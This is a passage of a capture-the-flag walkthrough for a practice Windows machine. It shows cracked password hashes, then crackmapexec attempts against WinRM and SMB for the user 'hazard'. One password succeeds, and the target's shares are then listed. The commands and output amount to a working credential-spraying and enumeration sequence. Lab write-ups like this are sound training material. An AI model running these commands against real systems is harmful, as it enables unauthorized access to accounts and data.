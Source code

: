 ```terminal
stealth1agent    (?)                                                                                                                                          
1g 0:00:01:10 DONE (2023-05-10 18:50) 0.01422g/s 49862p/s 49862c/s 49862C/s stealthy001..steak7893                                                            
Use the "--show" option to display all of the cracked passwords reliably                                                                                      
Session completed       
```

We've succeeded to crack the three hashes and we're left with following passwords.

```terminal
$uperP@ssword
Q4)sJu\Y8qz*A3?d
stealth1agent
```

Now let's use `crackmapexec` and see if we can login to `winrm` as `hazard` with one of those passwords.

```terminal
$ crackmapexec winrm 10.10.10.149 -u hazard -p pass.txt                                                                                            130 ⨯
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:stealth1agent
```

### SMB

It didn't work, let's try with `smb`.

```terminal
$ crackmapexec smb 10.10.10.149 -u hazard -p pass.txt
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```

We got a successful login with password `stealth1agent`, so let's list shares.

```terminal
 $ crackmapexec smb 10.10.10.149 --shares -u hazard -p stealth1agent        
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```
